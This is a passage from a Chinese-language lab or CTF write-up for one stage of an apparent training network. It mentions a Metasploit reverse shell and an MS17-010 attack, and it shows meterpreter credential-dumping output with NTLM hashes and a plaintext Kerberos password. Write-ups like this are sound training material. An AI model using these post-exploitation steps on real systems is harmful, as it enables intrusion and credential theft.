 ![image-20230728212120883](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282121907.png)

*看网上 writeup 的时候发现也能通过 phpmyadmin 弱口令 + sql 写文件打进去*

## flag03

msf 反弹上线之前的机器, 方便打 ms17-010

![image-20230728210708249](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282107283.png)

![image-20230728212649316](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282126355.png)

先收集 windows 机器上的凭据

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username        Domain    NTLM                              SHA1
--------        ------    ----                              ----
Charles         XIAORANG  f6a9881cd5ae709abb4ac9ab87f24617  99439e2268d0f5063928f523d5d44c8d69be7e34
XIAORANG-OA01$  XIAORANG  e5a27a8f96f2a2e742b6cd69e87c739b  b870548b0c00dabf6262942068aeaa2e83440d97
XIAORANG-OA01$  XIAORANG  dc5f050393a7cc83e0518b8015b8b65d  fc0612848c69ce0b4f2afc76e506289e4bc97bd8

wdigest credentials
===================

Username        Domain    Password
--------        ------    --------
(null)          (null)    (null)
Charles         XIAORANG  (null)
XIAORANG-OA01$  XIAORANG  (null)

kerberos credentials
====================

Username        Domain        Password
--------        ------        --------
(null)          (null)        (null)
Charles         XIAORANG.LAB  Charlw0yFl8hx
XIAORANG-OA01$  xiaorang.lab  ...... (略)
XIAORANG-OA01$  xiaorang.lab  ...... (略)
xiaorang-oa01$  XIAORANG.LAB  ...... (略)
```

![image-20230728212812382](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282128411.png)
